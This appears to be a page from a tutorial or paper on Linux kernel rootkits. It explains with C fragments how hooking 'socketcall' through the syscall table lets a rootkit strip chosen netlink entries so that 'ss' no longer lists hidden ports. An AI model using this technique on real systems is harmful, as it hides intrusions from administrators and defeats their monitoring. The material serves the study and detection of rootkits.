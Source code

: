 \documentclass[10pt, letterpaper]{article}
\begin{document}
\begin{verbatim}
status = recvmsg(fd, &msg, 0); // receive information
[...]                          // buf is somewhere "inside" msg
h = (struct nlmsghdr*)buf;     // buf holds the information for ss
while (NLMSG_OK(h, status)) {  // "parse" information and output
  tcp_show_sock(h, NULL);      // generate one output line
  h = NLMSG_NEXT(h, status);   // fetch next item
}
\end{verbatim}

We see that obviously \texttt{recvmsg} is called, and the resulting information is used to generate the output. \texttt{buf} is a buffer that contains several \texttt{nlmsghdr}s in sequence. These are processed one after another to generate the output.

So, if we are able to modify this sequence of \texttt{nlmsghdr}s that is generated by \texttt{recvmsg}, we are basically done. As we know, the \texttt{recvmsg} system call is internally handled by the \texttt{socketcall} function. We hook this function (by modifying the syscall table) and inject in this way our \texttt{hooked\_socketcall}. 

\texttt{hooked\_socketcall} works as follows: First, we issue a call to the original \texttt{socketcall} function so that we get the \emph{original} result. After that, we are going to modify this result appropriately. Since \texttt{recvmsg} returns the number of bytes stored in the sequence, we also have to remember and adjust this number. It is stored in \texttt{retval}.

We are going to modify the result using a similar technique to that described in \autoref{filehiding}: If we find an entry to be hidden, we take all remaining entries and move them one position forward (see \autoref{fig:filehiding} for a visualization, but remember that we are here talking about \texttt{nlmsghdr}s). Therefore, we iterate over all the entries and check for each entry if it shall be hidden.

\begin{verbatim}
currhdr = (char*)h; // current entry
if (checkport(h)){  // shall we hide this entry?
    // overwrite the current entry by shifting
    for (i=0; i<status; ++i){
        currhdr[i] = currhdr[i + NLMSG_ALIGN((h)->nlmsg_len)];
    }
    // adjust return value (no. bytes)
    retval = retval - NLMSG_ALIGN((h)->nlmsg_len);
}
\end{verbatim}
\end{document}

